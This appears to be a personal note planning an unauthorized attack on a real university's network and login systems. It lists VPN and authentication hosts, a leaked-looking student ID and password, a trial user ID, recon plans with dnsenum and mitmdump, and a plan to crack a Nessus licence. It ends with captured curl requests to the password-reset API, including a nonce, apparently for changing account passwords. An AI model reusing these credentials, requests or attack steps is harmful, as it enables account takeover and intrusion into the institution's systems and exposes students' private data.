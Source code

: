 ```yaml
---
created: 2021-12-22T13:45:58+08:00
modified: 2022-01-11T02:36:59+08:00
---
```


# The Hack (Get password and tests)

Scan this website with kali linux.

The Intranet Gateway For Campus:
https://app.topsec.com.cn

mitmdump --mode socks5 --listen-port 8050 -w logs.log --flow-detail 3 --set stream_websocket=true

pdvpn.lixin.edu.cn
pdvpn2.lixin.edu.cn
vpn.lixin.edu.cn
vpn2.lixin.edu.cn

xxb.lixin.edu.cn/jszl/57078.htm

201960630:CHENweiyi0519

https://cas.paas.lixin.edu.cn/cas/login?service=https%3A%2F%2Flxjw.lixin.edu.cn%2Fcas%2Flogin

https://security-center.paas.lixin.edu.cn/find-pwd

20039370

missing puzzle for changing password:

trial user:
201960249

have searched related websites with site:lixin.edu.cn, could get more if keep doing so, using dnsenum.

to get all site links with proper titles, we need to use playwright.

nessus scanner has that 16 ips limitation, we need to crack/patch it first.

to master kali linux, recommend to scrape kali_tools and tutorialspoint for kali, or just simply using manpage.

cisco router is untouched till now. need we to scan it?
(intermediate ip addresses)

curl 'https://personal-security-center.paas.lixin.edu.cn/api/v1/personal/open/passwordStrategy/verify' \
  -H 'Connection: keep-alive' \
  -H 'sec-ch-ua: "(Not(A:Brand";v="8", "Chromium";v="98", "Google Chrome";v="98"' \
  -H 'Accept: application/json, text/plain, */*' \
  -H 'Content-Type: application/json;charset=UTF-8' \
  -H 'sec-ch-ua-mobile: ?0' \
  -H 'User-Agent: Mozilla/5.0 (X11; CrOS aarch64 14371.0.0) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4729.0 Safari/537.36' \
  -H 'sec-ch-ua-platform: "Chrome OS"' \
  -H 'Origin: https://security-center.paas.lixin.edu.cn' \
  -H 'Sec-Fetch-Site: same-site' \
  -H 'Sec-Fetch-Mode: cors' \
  -H 'Sec-Fetch-Dest: empty' \
  -H 'Referer: https://security-center.paas.lixin.edu.cn/' \
  -H 'Accept-Language: en-US,en;q=0.9' \
  --data-raw '{"password":"abcdefABC","userId":""}' \
  --compressed

curl 'https://personal-security-center.paas.lixin.edu.cn/api/v1/personal/open/forgotPassword/changePassword' \
  -H 'Connection: keep-alive' \
  -H 'sec-ch-ua: "(Not(A:Brand";v="8", "Chromium";v="98", "Google Chrome";v="98"' \
  -H 'Accept: application/json, text/plain, */*' \
  -H 'Content-Type: application/json;charset=UTF-8' \
  -H 'sec-ch-ua-mobile: ?0' \
  -H 'User-Agent: Mozilla/5.0 (X11; CrOS aarch64 14371.0.0) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4729.0 Safari/537.36' \
  -H 'sec-ch-ua-platform: "Chrome OS"' \
  -H 'Origin: https://security-center.paas.lixin.edu.cn' \
  -H 'Sec-Fetch-Site: same-site' \
  -H 'Sec-Fetch-Mode: cors' \
  -H 'Sec-Fetch-Dest: empty' \
  -H 'Referer: https://security-center.paas.lixin.edu.cn/' \
  -H 'Accept-Language: en-US,en;q=0.9' \
  --data-raw '{"confirmPassword":"abc123ABC","newPassword":"abc123ABC","nonce":"YzhhZmZjYzktNWQ3Ny00MGU1LTg0ODgtYTYzZTMzMDZkMjU0XzE2NDAyNjg5MzcyNTY"}' \
  --compressed
